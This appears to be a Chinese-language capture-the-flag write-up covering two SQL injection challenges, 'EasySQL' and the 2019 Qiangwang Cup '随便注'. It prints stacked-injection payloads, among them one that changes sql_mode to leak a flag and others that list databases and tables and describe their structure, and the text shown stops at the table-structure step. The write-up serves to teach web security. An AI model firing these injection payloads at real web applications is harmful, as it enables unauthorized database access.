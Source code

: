 [toc]

## EasySQL

> 考点：sql语句的猜测以及sql_mode参数的设置

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/07/wp_editor_md_c8cb2dbd591fcaed268155fdd3d97df3.jpg)
 如图所示，输入1查询，结果发现输出1.
 尝试几次，发现存在堆叠注入：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/07/wp_editor_md_192c0e6f360417ed5055fc9bc1c07f58.jpg)
 根据回显，大致猜测sql语句为：
 `select $_POST['query']||flag from flag`
 注意：**在mysql中，默认||的意思是或，而在oracle中默认||的意思是连接符号。在mysql中可以用sql语句`set sql_mode=PIPES_AS_CONCAT`来使得||符号的意义变为连接符。**
 因此：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/07/wp_editor_md_ceac6f8b1fb955d091fb205317a4fb3f.jpg)
 `query=1;set sql_mode=PIPES_AS_CONCAT;select 1`

## [强网杯 2019]随便注

### 方法1

> 考点：
> 1.堆叠注入
> 2.sql语句desc命令（describe）查看表结构
> 3.数据库表名的更改(rename)
> 4.数据库列名的更改

开局判断注入类型，单引号字符型注入。order by判断一共有两行。使用union select联合查询，发现提示如图所示的关键字均被过滤：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_83df02852a97a48e8ae2dfd9055d10ff.jpg)
 select都被过滤了，尝试使用堆叠注入。

```
?inject=1';show databases;
```

如图，得到数据库：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_f317569b3eb1501829bef5b0afeff5b6.jpg)
 继续，可以得到表：

```
?inject=1';show tables;%23
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_55215f35b7327ec59a0601a79c41e347.jpg)
 分别查看两个表的结构，如图：

```
?inject=1';desc `1919810931114514`;%23
?inject=1';desc words;%23
```
